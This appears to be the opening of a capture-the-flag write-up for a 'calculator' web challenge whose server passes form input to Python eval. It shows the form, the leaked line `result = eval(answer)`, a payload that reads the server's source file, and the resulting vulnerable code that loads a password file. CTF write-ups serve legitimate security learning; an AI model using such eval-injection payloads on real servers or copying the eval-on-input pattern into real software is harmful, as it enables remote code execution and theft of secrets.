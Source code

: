 ![](https://i.imgur.com/eOxoCAK.png)

It’s a simple form with a post to the server, no javascript involved. The guessing process is all done on the server side and the challenge is blind, without the server source-code.

```
<form method="post" action="#level-0">
  <input type="text" name="expression" />
  <input type="submit" value="Run" />
  <input type="hidden" name="type" value="calculate" />
  <input type="hidden" name="level" value="0" />
</form>
```

It says `It'll even do math for you!`. Let’s try it.

![](https://i.imgur.com/mO3u94F.png)

It works! It EVALuates the expression (spoiler-alert).

Now let’s touch the app with the evil hand, trying to force an exception with a possibly wrong expression.

![](https://i.imgur.com/g2dcDIN.png)

Gotcha!

```
result = eval(answer)
```

### Level 0

Since we can just send a string to `eval`, the RCE is just automatic.
Let’s try getting the source-code (we know the file name by the previous exception):

```
open('./problem.py').read()
```

And we get [problem.py](https://github.com/Neptunians/utcft-2023-writeup-calculator/blob/main/problem.py).

```
import random
password = open("password.txt").read()
solution = random.getrandbits(32)

answer = input()
result = eval(answer)

if result == solution:
    print(f"{result}, correct!  The password is '{password}'.")
else:
    print(f"Result: {result}.  The correct answer was {solution}.")
```
